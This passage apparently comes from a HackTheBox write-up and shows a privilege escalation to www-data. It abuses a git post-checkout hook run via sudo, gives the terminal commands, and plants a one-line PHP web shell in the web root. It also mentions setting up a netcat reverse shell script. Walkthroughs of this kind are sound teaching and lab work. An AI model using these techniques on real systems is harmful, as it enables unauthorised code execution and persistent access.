 ## Escalating to www-data using the git post-checkout hooks

Since I can execute git checkout as user `git` I can exploit the post-checkout hooks to get RCE. I'll just create a webshell so I can run commands as `www-data`:

```
bolt@bolt:/var/tmp$ cd /var/tmp
bolt@bolt:/var/tmp$ mkdir a
bolt@bolt:/var/tmp$ cd a
bolt@bolt:/var/tmp/a$ git init
Initialized empty Git repository in /var/tmp/a/.git/
bolt@bolt:/var/tmp/a$ touch blabla
bolt@bolt:/var/tmp/a$ git add blabla
bolt@bolt:/var/tmp/a$ git commit -m 'yo'

*** Please tell me who you are.

Run

  git config --global user.email "you@example.com"
  git config --global user.name "Your Name"

to set your account's default identity.
Omit --global to set the identity only in this repository.

fatal: empty ident name (for <bolt@bolt>) not allowed
bolt@bolt:/var/tmp/a$ vi .git/hooks/post-checkout
bolt@bolt:/var/tmp/a$ chmod 755 .git/hooks/post-checkout
bolt@bolt:/var/tmp/a$ chmod -R 777 *
bolt@bolt:/var/tmp/a$ chmod -R 777 .git/
bolt@bolt:/var/tmp/a$ sudo -u git /usr/bin/git checkout * 
error: unable to unlink old 'blabla': Permission denied
bolt@bolt:/var/tmp/a$ ls -l /var/www/html/snow.php
-rw-r--r-- 1 git www-data 29 Oct 20 23:43 /var/www/html/snow.php

bolt@bolt:/var/tmp/a$ cat /var/www/html/snow.php 
<?php system($_GET["c"]) ?>;
```

![](/assets/images/htb-writeup-registry/Screenshot_4.png)

I tried to get a reverse shell but I couldn't so I assume there is a firewall blocking outbound connection. No matter, there is netcat already on the box so I can start a local listener as user `bolt` and proceed from there. I created a `/tmp/shell.sh` that contains a standard reverse shell using netcat and called it from my webshell. 

